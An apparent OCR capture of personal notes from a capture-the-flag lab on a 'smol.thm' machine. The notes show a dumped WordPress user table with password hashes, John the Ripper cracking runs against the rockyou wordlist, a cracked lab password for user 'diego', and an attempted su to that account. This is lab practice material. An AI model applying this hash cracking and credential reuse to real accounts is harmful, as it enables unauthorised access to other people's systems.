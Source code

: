 think','$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/','think','josemlwdf@smol.thm','http://smol.thm','2023-08-16 15:01:02','',0,'Jose Mario Llado Marti'),(4,'gege','$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1','gege','gege@smol.thm','http://smol.thm','2023-08-17 20:18:50','',0,'gege'),(5,'diego','$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1','diego','diego@smol.thm','http://smol.thm','2023-08-17 20:19:15','',0,'diego'),(6,'xavi','$P$BvcalhsCfVILp2SgttADny40mqJZCN/','xavi','xavi@smol.thm','http://smol.thm','2023-08-17 20:20:01','',0,'xavi');

# cracking -> .txt 로 하니까 인코딩 문제 발생 -> .hash 로 반드시 저장하기!

echo '$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/' > think.hash
echo '$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1' > gege.hash
echo '$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1' > diego.hash
echo '$P$BvcalhsCfVILp2SgttADny40mqJZCN/' > xavi.hash

john --wordlist=/usr/share/wordlists/rockyou.txt think.hash

# DONE (2025-07-26 07:21) 0g/s -> 0개 크랙됨

─(root㉿docker-desktop)-[/]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt think.hash
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 SSE2 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 1.33% (ETA: 07:21:56) 0g/s 22403p/s 22403c/s 22403C/s bossdog..betty77
0g 0:00:00:11 1.46% (ETA: 07:21:55) 0g/s 22411p/s 22411c/s 22411C/s cumcum..clown13
0g 0:00:11:46 DONE (2025-07-26 07:21) 0g/s 20302p/s 20302c/s 20302C/s !!!@@@!!!..\*7¡Vamos!
Session completed.

# john --wordlist=/usr/share/wordlists/rockyou.txt think.hash

# 기본적으로 john 은 username:hash 로 인식하므로 형태 지키기

cat <<'EOF' > users.hash
think:$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/
gege:$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BvcalhsCfVILp2SgttADny40mqJZCN/
EOF

# john --wordlist=/usr/share/wordlists/rockyou.txt users.hash

sandiegocalifornia (diego)

# su diego -> 무반응 이슈
